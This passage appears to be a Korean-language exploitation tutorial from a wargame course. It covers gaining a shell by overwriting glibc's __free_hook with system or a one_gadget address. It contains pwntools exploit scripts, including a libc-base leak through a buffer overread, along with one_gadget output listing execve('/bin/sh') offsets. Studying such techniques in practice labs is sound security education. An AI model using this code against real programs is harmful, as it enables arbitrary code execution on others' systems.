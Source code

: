 ```python
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(system).encode())

# [3] Exploit
p.recvuntil('To free: ')
p.sendline(str(binsh).encode())

p.interactive()
```

## One_gadget

- **one_gadget** 또는 **magic_gadget** 은 실행하면 셸이 획득되는 코드 뭉치를 말함
- https://github.com/david942j/one_gadget
- 원 가젯은 함수에 인자를 전달하기 어려울 때 유용하게 활용할 수 있음
    - 예를 들어, `__malloc_hook` 을 임의의 값으로 오버라이트할 수 있지만, `malloc` 의 인자에 작은 정수 밖에 입력할 수 없는 상황이라면 `"/bin/sh"` 문자열 주소를 인자로 전달하기 매우 어려움
    - 이럴 때 제약 조건을 만족하는 원 가젯이 존재한다면, 이를 호출해서 셸을 획득할 수 있음

```python
$ one_gadget ./libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

### one_gadget 실습

```python
#!/usr/bin/env python3
# Name: fho_og.py

from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# 또는 libc_base = libc_start_main_xx - libc.libc_start_main_return
free_hook = libc_base + libc.symbols['__free_hook']
og = libc_base+0x4f432

slog('libc_base', libc_base)
slog('free_hook', free_hook)
slog('one-gadget', og)

```